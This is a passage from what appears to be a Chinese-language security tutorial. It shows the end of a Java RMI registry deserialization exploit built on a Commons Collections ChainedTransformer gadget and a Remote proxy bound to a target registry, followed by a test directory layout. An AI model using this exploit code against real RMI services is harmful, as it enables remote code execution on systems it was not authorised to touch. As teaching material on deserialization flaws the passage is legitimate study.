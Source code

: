 ```java
        Field           f           = ChainedTransformer.class.getDeclaredField( "iTransformers" );
        f.setAccessible( true );
        f.set( tchain, tarray );
        String          name        = "anything";
        GeneralInvocationHandler3
                        ih          = new GeneralInvocationHandler3( ht );
        Remote          remoteProxy = ( Remote )Proxy.newProxyInstance
        (
            Remote.class.getClassLoader(),
            new  Class[] { Remote.class },
            ih
        );
        Registry        r           = LocateRegistry.getRegistry( addr, port );
        try
        {
            r.rebind( name, remoteProxy );
        }
        catch ( Exception e )
        {
            System.out.print( PrivateGetRootCause( e ).getLocalizedMessage() );
        }
    }
}
```

这个版本自己处理了异常，优化输出，不再显示调用栈回溯信息。

14.4) 测试

假设目录结构是:

.
|
+---test0
|
+---test1
|       DoSomething.class
|
+---test2
|       RMIRegistryServer.class
|       all.policy
|       commons-collections-3.1.jar
|
\---test3
        RMIRegistryExploitWithHashtable.class
        RMIRegistryExploitWithHashtable2.class
        GeneralInvocationHandler3.class
        commons-collections-3.1.jar
